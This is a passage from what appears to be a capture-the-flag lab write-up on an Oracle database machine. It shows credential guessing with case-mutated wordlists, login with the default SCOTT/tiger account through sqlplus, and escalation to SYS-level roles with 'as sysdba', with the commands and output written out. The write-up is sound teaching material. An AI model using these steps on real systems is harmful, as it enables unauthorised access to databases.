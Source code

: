     if __name__ == '__main__':
        if len(sys.argv) != 3:
            usage()
        main(sys.argv[1], sys.argv[2])
    

Eventually, I decided to try different cases, so I wrote a couple scripts to
modify existing lists to include upper, lower, and capitalized.

When fed that list, the scanner gives a good username / password:
`SCOTT`:`tiger`.

#### 4 - Check out the database

At this point, we can connect using sqlplus:

    
    
    root@kali# sqlplus SCOTT/tiger@10.10.10.82:1521/XE
    
    SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018
    
    Copyright (c) 1982, 2016, Oracle.  All rights reserved.
    
    
    Connected to:
    Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
    
    SQL>
    
    

Obviously the first thing we’ll do it check out the database. There isn’t any
data of interest.

#### 5 - db PrivEsc

Looking at the current access, SCOTT doesn’t have privilege:

    
    
    SQL> select * from user_role_privs;
    
    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SCOTT                          CONNECT                        NO  YES NO
    SCOTT                          RESOURCE                       NO  YES NO
    

However, if we reconned with the `as sysdba` option (think sudo for Oracle),
then we have a ton more:

    
    
    root@kali# sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
    ...snip...
    SQL> select * from user_role_privs;
    
    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
    SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
    SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
    SYS                            AQ_USER_ROLE                   YES YES NO
    SYS                            AUTHENTICATEDUSER              YES YES NO
    SYS                            CONNECT                        YES YES NO
    SYS                            CTXAPP                         YES YES NO
    SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
    SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
    SYS                            DBA                            YES YES NO
    SYS                            DBFS_ROLE                      YES YES NO
    